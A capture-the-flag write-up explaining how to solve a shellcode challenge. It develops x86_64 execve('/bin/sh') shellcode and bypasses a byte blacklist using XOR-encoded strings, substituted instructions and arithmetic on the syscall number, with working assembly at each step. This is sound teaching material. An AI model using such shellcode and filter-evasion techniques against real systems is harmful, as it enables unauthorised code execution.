






A classic Stack-based exploitation challenge where the program asks a user input, and then it will execute whatever value given by the user. How do i know it? i didn't even decompile the executable file because the challenge itself gives me the binary and its source code, so i just read it while running the program. Overall, this challenge is more focused on shellcode development rather than reversing the binary logic. Take a look on binary protections below.

```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX Disabled
    PIE:        PIE enabled
    Stack:      Executable
    Stripped:   No
```

Because the NX protection is disabled and the program will execute our inputs, im pretty sure that we can solve this challenge by just crafting a shellcode payload. But, it's not that eazy, there are 2 restrictions based on the given source code:
1. We should avoid any characters that are blacklisted as mentioned on `blacklist[]` variable. If you compile the assembly payload and generates one of the following bytes, the program will show: "*Hehe, told you... won't accept everything*"
```py
char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";
```
2. Our payload shouldn't longer than 60 characters as you can see on the following:
```py
char buf[62];
# ...
int size = read(0, buf, 60);
```

Before we talk further to the actual payload, let's build the fundamental first by forgetting about the blacklisted chars for a while.

When i read the challenge at the first sight, my dumb part of my brain thinking about calling `system("/bin/sh")` function to spawn a shell. But i realized that `system()` is a libc function, not a syscall. Calling `system("/bin/sh")` requires knowing the address of `system` in libc, proper stack alignment, and a valid PLT/GOT entry or resolved libc base. It's much more complex for our case. **The most reliable approach is to spawn a shell by crafting shellcode with `execve` syscall.**

> [!TIP]
> `execve` is not the only syscall to spawn a shell. There are many others such as `execveat`, `fork`, `open`. However, all of them eventually end up calling `execve` internally or require more setup. `execve` is the most direct and cleanest one. Remember that we only have 60 bytes size of buffer, so we need to craft the shellcode as short as possible.

Now we know that our goal is to call `execve` to spawn a shell. But first, we should understand how exactly this syscall works in the low level perspective. When calling `execve` syscall, you need to follow the System V ABI calling convention. It's like a syntax guide of how to call a function. [This documentation](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit) is a good start for understanding Linux System Call Table. But if you tired reading, here is the summary:



The binary architecture is using x86_64 so we need to follow the last row based on the image above. Let's start to craft our first dummy payload to trigger `execve` syscall.

```asm
push 0x0068732f6e69622f     ; /bin/sh
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x3b

syscall
```

- The first 2 line is used for zero out the `rsi` and `rdx` register, so both value is 0. We do this way because the 2nd and 3rd argument of `execve` can be nullable. Clearing both register makes the shellcode more simple and short.
- Since the syscall number (NR) of `execve` is `0x3b`, we set the `rax` to `0x3b` as you can see on the 3rd line
- The 4th and 5th line will set the 1st argument of `execve` to `/bin/sh` string. This argument is mandatory and can't be nullable.

But those shellcode will only worked when there are no restrictions. In our case, there are bunch of blacklisted characters as mentioned earlier. Here is the list of blacklisted characters when we convert those bytes to ASCII character:
```py
char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";
```
- `/bin/sh`
- `0x3b`
- flag
- `;`
- `_`
- `pop rdi`
- .. and another unprintable characters

How do we bypass them? even the crucial part of `execve` syscall, which is `/bin/sh` (for arg0) and the `execve` syscall number `0x3b` (for `rax`) is blocked. First, lets try to bypass the `/bin/sh` string. The idea is to hide them by using XOR encryption so it won't detected as a blacklisted character.

Take a look on the shellcode below. XORing `0x1010101010101010` with `0x1078633f7e79723f` will give us `0x68732f6e69622f` which is `/bin/sh` in LSB.

```asm
mov rax, 0x1010101010101010
push rax
mov rax, 0x1078633f7e79723f
xor [rsp], rax
mov rdi, rsp

xor rsi, rsi
xor rdx, rdx

mov rax, 0x3b
syscall
```
When we run the payload, ofcourse it won't work because we only bypass the `/bin/sh` restriction. There are few more byte characters which still detected as "blocked" in our shellcode. But at least we know which bytes or characters is still blocked as you can see on the image below



While we know that `0x3b` is blocked (*we'll handle it later*), it turns out that somehow the generated bytes of `xor rsi, rsi` and `xor rdx, rdx` is also blocked, even though the `xor [rsp], rax` is accepted. Let's trick them by replacing it to `mov` instruction instead of `xor`.
```asm
mov rax, 0x1010101010101010
push rax
mov rax, 0x1078633f7e79723f
xor [rsp], rax
mov rdi, rsp

mov rsi, 0x0
mov rdx, 0x0

mov rax, 0x3b
syscall
```

Take a look on the image below. We've bypassed the previous `xor` instruction. Now the only blocked bytes left is `0x3b` which is the syscall number (NR) for `execve`. The trick is to push `0x3c` into the stack and then substract them by `1`, so when the RIP executes, the result would be: `0x3c - 0x1 = 0x3b`. We got the `0x3b` back by this operation. Lets try it!



```asm
mov rax, 0x1010101010101010
push rax
mov rax, 0x1078633f7e79723f
xor [rsp], rax
mov rdi, rsp

mov rsi, 0x0
mov rdx, 0x0

push 0x3c
pop rax
sub al, 0x1
syscall
```

`al` is just a lower 8-bit version of `rax` register. Look at the image below



Run [the script](exploit.py) and finally we got the flag!



To summarize, here is our process flow when modifying the shellcode step by step to try to bypass blocked byte characters.

